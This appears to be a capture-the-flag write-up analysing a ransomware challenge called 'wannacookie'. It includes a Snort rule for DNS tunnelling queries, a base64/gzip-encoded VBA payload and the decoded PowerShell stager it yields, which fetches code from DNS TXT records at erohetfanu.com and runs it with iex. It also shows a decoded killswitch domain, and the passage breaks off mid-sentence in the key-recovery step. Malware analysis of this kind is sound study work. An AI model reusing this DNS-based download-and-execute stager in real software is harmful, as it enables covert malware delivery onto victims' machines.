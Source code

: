 Looking at a few more examples, we see that the query is always 56 characters long with first 1-3 digits followed by a separator and about 40 hex characters.
We can then write the following Snort rule to match these queries

```
> cat /etc/snort/rules/local.rules 
alert udp any any <> any 53 (msg:"DNS Malware"; sid:1000001; pcre:"/.*[0-9A-F]{1,4}.[A-F0-9]{35,42}/"; rev:2;) 
```

### Part 2 - Identify the Domain

In the "docm" file we can extract the embedded VBA code which contains a compressed and base 64 converted snippet of code.
Decoding it gives the inner payload.

```
> echo "lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG" | base64 -d > vba_payload.dat
> printf "\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00" |cat - vba_payload.dat|gunzip --
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o}; $f = "77616E6E61636F6F6B69652E6D696E2E707331"; $h = ""; foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {$h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings}; iex($(H2A $h | Out-string))
```

Which gives us the domain the malware is communicating with: "erohetfanu.com".

### Part 3 - Stop the Malware

The inner payload is a stager which uses the remote domain for downloading another file "wannacookie.min.ps1" and running it.
Using the same Powershell code we can download the uncompressed "wannacookie.ps1" file and read the source code.
There is a suspicious string in the code and again by using the powershell code we can decode it.

```
> echo $(H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings)))
yippeekiyaa.aaay
```

This gives us the killswitch domain that we can register (Support Marcus Hutchins): yippeekiyaa.aaay

### Part 4 - Recover Alabaster's Password

From the zip file, we get Alabaster's encrypted passwords database and a memory dump of the powershell process.
By analyzing the source code, we see that the malware generates a secret key, downloads a public key from the server, encrypts the secret key with the public key and uplaods it to the server.
Usung powerdump we can search for Powershell variables in memory. By downloading the same public key "server.crt" and encrypting a dummy value we can see that the encrypted key is 512 characters.
With this info we can search in powerdump for variables of roughly that length which gives is a few results. All of them are code blocks except one which has the following value:
